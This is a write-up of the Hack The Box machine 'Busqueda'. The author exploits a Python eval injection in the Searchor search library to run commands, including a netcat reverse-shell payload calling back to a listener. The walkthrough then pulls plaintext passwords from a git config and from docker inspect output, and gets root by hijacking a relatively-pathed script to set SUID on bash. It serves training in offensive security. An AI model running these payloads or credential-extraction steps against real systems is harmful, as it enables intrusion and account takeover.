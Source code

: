 ```yaml
---
layout: post
title: "HTB: Busqueda"
author: Andrew Cherney
date: 2023-08-12 16:14:08
tags: htb easy-box
icon: "assets/icons/busqueda.png"
post_description: "Much like RedPanda this box starts with exploiting a search engine. I hope your python is up to the test. Next we look for an exploit using docker inspect to get into a git repo and gain access to private scripts running on the machine, which are then exploited for root."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h2>Enumeration</h2>

<h3>nmap</h3>

```
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Busqueda]
└──╼ $nmap -sC 10.10.11.208
Starting Nmap 7.92 ( https://nmap.org ) at 2023-05-14 16:34 CDT
Nmap scan report for 10.10.11.208
Host is up (0.056s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http
|_http-title: Did not follow redirect to http://searcher.htb/
```

```bash
echo '10.10.11.208 searcher.htb' >> /etc/hosts
```

<h3>Port 80 - http</h3>

![front page](/img/busqueda/front_page.png)

![/search](/img/busqueda/search.png)

This page appears to be a universal searcher where you specify a platform and it returns a web address which you can enter as an address to perform your search. The endpoint that you are redirected to is **/search**. Now I've already got a small lead from the footer of the front page. This is run in Flask and using the [Searchor github repo](https://github.com/ArjunSharda/Searchor).

<h2>User as svc</h2>

<h3>Python Code Escape</h3>

If I skim that repo I can find that the basic functionality of this site is to use that repo to search various sites and return the url for that search. The cursory search of vulnerabilities for this repo turn up [this arbitrary code execution on version 2.4.2](https://security.snyk.io/package/pip/searchor/2.4.0). The crux is our old friend improper eval usage as seen below:

```python
url = eval(
    f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
)
```

Commonly a way to escape python code through the eval function is to import os and use popen to run commands. Let's see what comes from that.

```
'+__import__("os").popen("id").read()+'
https://www.google.com/maps/search/uid%3D1000%28svc%29%20gid%3D1000%28svc%29%20groups%3D1000%28svc%29%0A
```

It works! Now I replace id with a reverse shell and gain my foothold.

```
'+__import__("os").popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.9 7777 >/tmp/f").read()+'
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Busqueda]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.208] 50910
bash: cannot set terminal process group (1641): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:/var/www/app$ whoami
whoami
svc
svc@busqueda:~$ cat user.txt
cat user.txt
113ea983d7b15-------------------
```

<h2>Root</h2>

<h3>Git Config</h3>

I run a linpeas and it throws off some interesting information. Firstly the **/home/svc/.local/bin** directory is in the path environment variable. If there is a script or command that runs another command or script from one of the path directories I can intercept that request and run my code as whatever user runs the script/command calling it (ideally root). Other basic things include DirtyPipe, Pwnkit, sudo Baron Samedit 1 and 2, and Netfilter heap out-of-bounds write. 

Before looking into any of those there are two .git directories:

```
drwxr-x--- 8 root root 4096 Apr  3 15:04 /opt/scripts/.git
drwxr-xr-x 8 www-data www-data 4096 May 14 18:08 /var/www/app/.git
```

I have access to the one inside of /var/www/app, so I'll crack open that juicy config file and see what we have. 

```
svc@busqueda:/var/www/app/.git$ cat config 
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```

Oh sweet wompums look at that password **jh1usoih2bkjaspwe92**. Now I can toss out a **sudo -l** to see what our user "cody" can do as root. 

```bash
svc@busqueda:/var/www/app/.git$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

<h3>Gitea</h3>

```bash
svc@busqueda:/var/www/app/.git$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

svc@busqueda:/var/www/app/.git$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS       PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   4 months ago   Up 8 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   4 months ago   Up 8 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

Two things pop out here, one is that here is a mysql database for a locally running webpage, and the other is that there is some other hosted site that we might be able to enumerate. Luckily inside of /etc/hosts on this machine I found **gitea.searcher.htb**. In retrospect the credentials for cody also mentioned this subdomain. 

![gitea page](/img/busqueda/gitea.png)

![gitea login](/img/busqueda/gitea_login.png)

![cody gitea](/img/busqueda/cody_gitea.png)

It seems we have another user for this specific service named administrator. Those credentials are certainly inside of the mysql database listed with our sudo access. Now all we need to do is figure out how to interact with that database. 

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect gitea
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --'{{.Config.Image}}' gitea
--gitea/gitea:latest
```

I found a basic use case [for the command here](https://docs.docker.com/engine/reference/commandline/inspect/), it pretty closely follows the regular docker inspect command. At the bottom of that page is the payload <code>docker inspect --format='{{json .Config}}' $INSTANCE_ID</code> and I intend to see if that works.

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --'{{json .Config}}' gitea
--{"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}
```

Oh hey it did work. And if you squint hard enough you can make out the administrator password is **yuiu1hoiu4i5ho1uh**. 

![admin gitea](/img/busqueda/admin_gitea.png)

![scripts repo](/img/busqueda/scripts_repo.png)

And would you look at that cool scripts directory with identical scripts to the /opt/scripts directory on the machine. Taking a small peek at one of the scripts that didn't work when I tried is I find my ticket to root. 

<h3>Code Exploitation</h3>

```python
elif action == 'full-checkup':
    try:
        arg_list = ['./full-checkup.sh']
        print(run_command(arg_list))
        print('[+] Done!')
    except:
        print('Something went wrong')
        exit(1)
```

Checking the full-checkup option of the code I can run as sudo I see that the option only checks for a local file then runs it as root. I can make the file modify /bin/bash to be an suid and then I will obtain root. 

```bash
!#/bin/bash
chmod +s /bin.bash
```

```bash
svc@busqueda:~$ nano full-checkup.sh 
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:~$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
c0c2d4933301--------------------
```
